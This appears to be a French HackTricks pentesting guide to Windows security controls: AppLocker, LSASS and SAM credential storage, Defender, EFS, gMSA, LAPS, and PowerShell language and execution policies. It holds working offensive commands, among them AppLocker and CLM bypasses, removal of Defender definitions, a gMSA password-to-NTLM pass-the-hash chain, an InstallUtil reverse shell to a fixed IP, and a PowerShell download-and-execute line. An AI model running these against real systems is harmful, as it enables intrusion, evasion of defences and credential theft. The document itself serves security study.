

# Contrôles de sécurité Windows

{{#include ../../banners/hacktricks-training.md}}

## Stratégie AppLocker

Une liste blanche d’applications est une liste de logiciels ou d’exécutables approuvés qui peuvent être présents et exécutés sur un système. L’objectif est de protéger l’environnement contre les malware nuisibles et les logiciels non approuvés qui ne répondent pas aux besoins spécifiques de l’organisation.

[AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker) est la **solution de liste blanche d’applications** de Microsoft et permet aux administrateurs système de contrôler **quelles applications et quels fichiers les utilisateurs peuvent exécuter**. Elle fournit un **contrôle granulaire** sur les exécutables, les scripts, les fichiers Windows Installer, les DLL, les applications empaquetées et les programmes d’installation d’applications empaquetés.\
Il est courant que les organisations **bloquent cmd.exe et PowerShell.exe** ainsi que l’accès en écriture à certains répertoires, **mais tout cela peut être contourné**.

### Vérification

Vérifiez quels fichiers/extensions sont blacklistés/whitelistés :
```bash
Get-ApplockerPolicy -Effective -xml

Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

$a = Get-ApplockerPolicy -effective
$a.rulecollections
```
Ce chemin de registre contient les configurations et les politiques appliquées par AppLocker, ce qui permet d’examiner l’ensemble actuel des règles appliquées sur le système :

- `HKLM\Software\Policies\Microsoft\Windows\SrpV2`

### Bypass

- **Writable folders** utiles pour bypass la politique AppLocker : si AppLocker autorise l’exécution de n’importe quel élément dans `C:\Windows\System32` ou `C:\Windows`, vous pouvez utiliser des **writable folders** pour **bypass ceci**.
```
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing
```
- Les binaires [**« LOLBAS's »**](https://lolbas-project.github.io/) généralement **trusted** peuvent également être utiles pour bypass AppLocker.
- Des règles **mal écrites peuvent également être contournées**
- Par exemple, avec **`<FilePathCondition Path="%OSDRIVE%*\allowed*"/>`**, vous pouvez créer un **dossier appelé `allowed`** n'importe où, et il sera autorisé.
- Les organisations se concentrent également souvent sur le **blocage de l'exécutable `%System32%\WindowsPowerShell\v1.0\powershell.exe`**, mais oublient les **autres** [**emplacements des exécutables PowerShell**](https://www.powershelladmin.com/wiki/PowerShell_Executables_File_System_Locations), tels que `%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe` ou `PowerShell_ISE.exe`.
- **L'application des règles aux DLL est très rarement activée**, en raison de la charge supplémentaire qu'elle peut imposer à un système et de la quantité de tests nécessaires pour s'assurer que rien ne cessera de fonctionner. Ainsi, utiliser des **DLL comme backdoors aidera à bypass AppLocker**.
- Vous pouvez utiliser [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) ou [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) pour **exécuter du code Powershell** dans n'importe quel processus et bypass AppLocker. Pour plus d'informations, consultez : [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-constrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-constrained-language-mode).<sup>[[4]](#references)</sup>

## Stockage des identifiants

### Security Accounts Manager (SAM)

Les identifiants locaux sont présents dans ce fichier, les mots de passe sont hachés.

### Local Security Authority (LSA) - LSASS

Les **identifiants** (hachés) sont **enregistrés dans la **mémoire** de ce sous-système pour des raisons de Single Sign-On.\
**LSA** administre la **politique de sécurité** locale (politique de mots de passe, permissions des utilisateurs...), l'**authentification**, les **jetons d'accès**...\
LSA sera chargé de **vérifier** les identifiants fournis dans le fichier **SAM** (pour une connexion locale) et de **communiquer** avec le **contrôleur de domaine** pour authentifier un utilisateur du domaine.

Les **identifiants** sont **enregistrés dans le **processus LSASS** : tickets Kerberos, hashes NT et LM, mots de passe facilement déchiffrables.

### LSA secrets

LSA peut enregistrer certains identifiants sur le disque :

- Mot de passe du compte ordinateur de l'Active Directory (contrôleur de domaine inaccessible).
- Mots de passe des comptes des services Windows
- Mots de passe des tâches planifiées
- Plus encore (mot de passe des applications IIS...)

### NTDS.dit

Il s'agit de la base de données de l'Active Directory. Elle est uniquement présente sur les contrôleurs de domaine.

## Defender

[**Microsoft Defender**](https://en.wikipedia.org/wiki/Microsoft_Defender) est un antivirus disponible dans Windows 10 et Windows 11, ainsi que dans certaines versions de Windows Server. Il **bloque** les outils de pentesting courants tels que **`WinPEAS`**. Cependant, il existe des moyens de **bypass ces protections**.

### Vérification

Pour vérifier l'**état** de **Defender**, vous pouvez exécuter la cmdlet PS **`Get-MpComputerStatus`** (vérifiez la valeur de **`RealTimeProtectionEnabled`** pour savoir si la protection est active) :

<pre class="language-powershell"><code class="lang-powershell">PS C:\> Get-MpComputerStatus

[...]
AntispywareEnabled              : True
AntispywareSignatureAge         : 1
AntispywareSignatureLastUpdated : 12/6/2021 10:14:23 AM
AntispywareSignatureVersion     : 1.323.392.0
AntivirusEnabled                : True
[...]
NISEnabled                      : False
NISEngineVersion                : 0.0.0.0
[...]
<strong>RealTimeProtectionEnabled       : True
</strong>RealTimeScanDirection           : 0
PSComputerName                  :
</code></pre>

Pour l'énumérer, vous pouvez également exécuter :
```bash
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
wmic /namespace:\\root\securitycenter2 path antivirusproduct
sc query windefend

#Delete all rules of Defender (useful for machines without internet access)
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
## Système de fichiers chiffré (EFS)

EFS sécurise les fichiers grâce au chiffrement, en utilisant une **clé symétrique** appelée **File Encryption Key (FEK)**. Cette clé est chiffrée avec la **clé publique** de l'utilisateur et stockée dans l'**alternative data stream** $EFS du fichier chiffré. Lorsqu'un déchiffrement est nécessaire, la **clé privée** correspondante du certificat numérique de l'utilisateur est utilisée pour déchiffrer la FEK depuis le flux $EFS. Plus de détails sont disponibles [ici](https://en.wikipedia.org/wiki/Encrypting_File_System).

**Scénarios de déchiffrement sans intervention de l'utilisateur** :

- Lorsque des fichiers ou dossiers sont déplacés vers un système de fichiers non-EFS, comme [FAT32](https://en.wikipedia.org/wiki/File_Allocation_Table), ils sont automatiquement déchiffrés.
- Les fichiers chiffrés envoyés sur le réseau via le protocole SMB/CIFS sont déchiffrés avant leur transmission.

Cette méthode de chiffrement permet un **accès transparent** aux fichiers chiffrés pour leur propriétaire. Cependant, il ne suffit pas de modifier le mot de passe du propriétaire et de se connecter pour permettre le déchiffrement.

**Points clés** :

- EFS utilise une FEK symétrique, chiffrée avec la clé publique de l'utilisateur.
- Le déchiffrement utilise la clé privée de l'utilisateur pour accéder à la FEK.
- Le déchiffrement automatique se produit dans certaines conditions, comme la copie vers FAT32 ou la transmission sur le réseau.
- Les fichiers chiffrés sont accessibles au propriétaire sans étapes supplémentaires.

### Vérifier les informations EFS

Vérifiez si un **utilisateur** a **utilisé** ce **service** en vérifiant si ce chemin existe :`C:\users\<username>\appdata\roaming\Microsoft\Protect`

Vérifiez **qui** a **accès** au fichier avec cipher /c \<file>\
Vous pouvez également utiliser `cipher /e` et `cipher /d` dans un dossier pour **chiffrer** et **déchiffrer** tous les fichiers

### Déchiffrer des fichiers EFS

#### Être Authority System

Cette méthode nécessite que l'**utilisateur victime** **exécute** un **processus** sur l'hôte. Si c'est le cas, en utilisant une session `meterpreter`, vous pouvez usurper le token du processus de l'utilisateur (`impersonate_token` depuis `incognito`). Vous pouvez également simplement effectuer une `migrate` vers le processus de l'utilisateur.

#### Connaître le mot de passe de l'utilisateur

Mimikatz explique comment importer le certificat et la clé privée de l'utilisateur, puis déchiffrer les fichiers protégés par EFS lorsque le mot de passe est connu.<sup>[[6]](#references)</sup>

## Comptes de service gérés par groupe (gMSA)

Microsoft a développé les **Group Managed Service Accounts (gMSA)** pour simplifier la gestion des comptes de service dans les infrastructures IT. Contrairement aux comptes de service traditionnels pour lesquels l'option "**Password never expire**" est souvent activée, les gMSA offrent une solution plus sécurisée et plus facile à gérer :

- **Gestion automatique des mots de passe** : les gMSA utilisent un mot de passe complexe de 240 caractères qui change automatiquement selon la stratégie du domaine ou de l'ordinateur. Ce processus est géré par le Key Distribution Service (KDC) de Microsoft, ce qui élimine le besoin de mises à jour manuelles des mots de passe.
- **Sécurité renforcée** : ces comptes ne sont pas concernés par les verrouillages et ne peuvent pas être utilisés pour des connexions interactives, ce qui renforce leur sécurité.
- **Prise en charge de plusieurs hôtes** : les gMSA peuvent être partagés entre plusieurs hôtes, ce qui les rend idéaux pour les services exécutés sur plusieurs serveurs.
- **Prise en charge des tâches planifiées** : contrairement aux managed service accounts, les gMSA permettent d'exécuter des tâches planifiées.
- **Gestion simplifiée des SPN** : le système met automatiquement à jour le Service Principal Name (SPN) lorsque les informations sAMaccount ou le nom DNS de l'ordinateur sont modifiés, ce qui simplifie la gestion des SPN.

Les mots de passe des gMSA sont stockés dans la propriété LDAP _**msDS-ManagedPassword**_ et sont automatiquement réinitialisés tous les 30 jours par les Domain Controllers (DCs). Ce mot de passe, un blob de données chiffré appelé [MSDS-MANAGEDPASSWORD_BLOB](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e), ne peut être récupéré que par les administrateurs autorisés et les serveurs sur lesquels les gMSA sont installés, garantissant ainsi un environnement sécurisé. Pour accéder à ces informations, une connexion sécurisée telle que LDAPS est requise, ou la connexion doit être authentifiée avec 'Sealing & Secure'.

<sup>[[1]](#references)</sup>

Vous pouvez lire ce mot de passe avec [**GMSAPasswordReader**](https://github.com/rvazarkar/GMSAPasswordReader)**:**<sup>[[2]](#references)</sup>
```
/GMSAPasswordReader --AccountName jkohler
```
[**Trouvez plus d’informations dans la recherche originale archivée**](https://web.archive.org/web/20200724233424/https://cube0x0.github.io/Relaying-for-gMSA/).<sup>[[1]](#references)</sup>

La même recherche explique comment une **attaque NTLM relay** peut obtenir un **mot de passe gMSA** lorsque le principal relayé est autorisé à lire `msDS-ManagedPassword`.<sup>[[1]](#references)</sup>

### Exploiter le chaînage des ACL pour lire le mot de passe gMSA géré (GenericAll -> ReadGMSAPassword)

Dans de nombreux environnements, les utilisateurs avec peu de privilèges peuvent accéder aux secrets gMSA sans compromettre le DC en exploitant des ACL d’objets mal configurées :<sup>[[3]](#references)</sup>

- Un groupe que vous pouvez contrôler (par exemple via GenericAll/GenericWrite) reçoit l’autorisation `ReadGMSAPassword` sur un gMSA.
- En vous ajoutant à ce groupe, vous héritez du droit de lire le blob `msDS-ManagedPassword` du gMSA via LDAP et d’en déduire des identifiants NTLM utilisables.

Workflow typique :

1) Identifiez le chemin avec BloodHound et marquez vos principaux foothold comme Owned. Recherchez des relations telles que :
- GroupA GenericAll -> GroupB; GroupB ReadGMSAPassword -> gMSA

2) Ajoutez-vous au groupe intermédiaire que vous contrôlez (exemple avec bloodyAD) :
```bash
bloodyAD --host <DC.FQDN> -d <domain> -u <user> -p <pass> add groupMember <GroupWithReadGmsa> <user>
```
3) Lire le mot de passe géré du gMSA via LDAP et dériver le hash NTLM. NetExec automatise l’extraction de `msDS-ManagedPassword` et sa conversion en NTLM :
```bash
# Shows PrincipalsAllowedToReadPassword and computes NTLM automatically
netexec ldap <DC.FQDN> -u <user> -p <pass> --gmsa
# Account: mgtsvc$  NTLM: edac7f05cded0b410232b7466ec47d6f
```
4) S’authentifier en tant que gMSA à l’aide du hash NTLM (aucun mot de passe en clair nécessaire). Si le compte appartient au groupe Remote Management Users, WinRM fonctionnera directement :
```bash
# SMB / WinRM as the gMSA using the NT hash
netexec smb   <DC.FQDN> -u 'mgtsvc$' -H <NTLM>
netexec winrm <DC.FQDN> -u 'mgtsvc$' -H <NTLM>
```
Notes :
- Les lectures LDAP de `msDS-ManagedPassword` nécessitent un sealing (par exemple, LDAPS/sign+seal). Les outils gèrent cela automatiquement.
- Les gMSAs se voient souvent accorder des droits locaux, comme WinRM ; validez l’appartenance aux groupes (par exemple, Remote Management Users) pour planifier le mouvement latéral.
- Si vous avez uniquement besoin du blob pour calculer vous-même le NTLM, consultez la structure MSDS-MANAGEDPASSWORD_BLOB.


## LAPS

La **Local Administrator Password Solution (LAPS)**, disponible au téléchargement depuis [Microsoft](https://www.microsoft.com/en-us/download/details.aspx?id=46899), permet de gérer les mots de passe du compte Administrator local. Ces mots de passe, qui sont **randomisés**, uniques et **régulièrement modifiés**, sont stockés de manière centralisée dans Active Directory. L’accès à ces mots de passe est restreint par des ACL aux utilisateurs autorisés. Des permissions suffisantes permettent de lire les mots de passe de l’administrateur local.


{{#ref}}
../active-directory-methodology/laps.md
{{#endref}}

## PS Constrained Language Mode

Le [**Constrained Language Mode**](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) de PowerShell **bloque de nombreuses fonctionnalités** nécessaires à une utilisation efficace de PowerShell, notamment le blocage des objets COM, l’autorisation exclusive des types .NET approuvés, les workflows basés sur XAML, les classes PowerShell, etc.

### **Vérifier**
```bash
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```
### Bypass
```bash
#Easy bypass
Powershell -version 2
```
Sur les versions actuelles de Windows, ce bypass ne fonctionne plus, mais vous pouvez utiliser [**PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM).\
**Pour le compiler, vous devrez peut-être** **ajouter** _**Add a Reference**_ -> _Browse_ ->_Browse_ -> ajouter `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll` et **modifier le projet vers .Net4.5**.

#### Direct bypass:
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```
#### Reverse shell:
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```
Vous pouvez utiliser [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) ou [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) pour **exécuter du code Powershell** dans n’importe quel processus et contourner le mode restreint. Pour plus d’informations, consultez : [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-constrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-constrained-language-mode).<sup>[[4]](#references)</sup>

## Stratégie d’exécution PS

Par défaut, elle est définie sur **restricted.** Principales méthodes pour contourner cette stratégie :
```bash
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```
On peut en trouver davantage [ici](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)<sup>[[5]](#references)</sup>

## Security Support Provider Interface (SSPI)

Il s’agit de l’API pouvant être utilisée pour authentifier les utilisateurs.

SSPI sélectionne un protocole d’authentification approprié pour deux machines communicantes, en privilégiant Kerberos lorsqu’il est disponible. Ces protocoles sont implémentés par des Security Support Providers (SSPs), qui sont installés sous forme de DLL sur Windows ; les deux pairs doivent prendre en charge le provider négocié.

### Principaux SSPs

- **Kerberos** : Le protocole privilégié
- %windir%\Windows\System32\kerberos.dll
- **NTLMv1** et **NTLMv2** : Pour des raisons de compatibilité
- %windir%\Windows\System32\msv1_0.dll
- **Digest** : Serveurs web et LDAP, mot de passe sous la forme d’un hash MD5
- %windir%\Windows\System32\Wdigest.dll
- **Schannel** : SSL et TLS
- %windir%\Windows\System32\Schannel.dll
- **Negotiate** : Utilisé pour négocier le protocole à employer (Kerberos ou NTLM, Kerberos étant celui utilisé par défaut)
- %windir%\Windows\System32\lsasrv.dll

#### La négociation peut proposer plusieurs méthodes ou une seule.

## UAC - Contrôle de compte utilisateur

[User Account Control (UAC)](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works) est une fonctionnalité qui permet d’afficher une **demande de consentement pour les activités nécessitant une élévation de privilèges**.


{{#ref}}
uac-user-account-control.md
{{#endref}}

## References

- [1] [Relaying for gMSA – cube0x0 (Archives Internet)](https://web.archive.org/web/20200724233424/https://cube0x0.github.io/Relaying-for-gMSA/)
- [2] [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader)
- [3] [HTB Sendai – 0xdf : gMSA via une chaîne de droits vers WinRM](https://0xdf.gitlab.io/2025/08/28/htb-sendai.html)
- [4] [darthsidious – Contourner AppLocker et le mode de langage contraint de PowerShell](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode)
- [5] [NetSPI – 15 façons de contourner la stratégie d’exécution de PowerShell](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)
- [6] [howto ~ déchiffrer des fichiers EFS](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files)
{{#include ../../banners/hacktricks-training.md}}
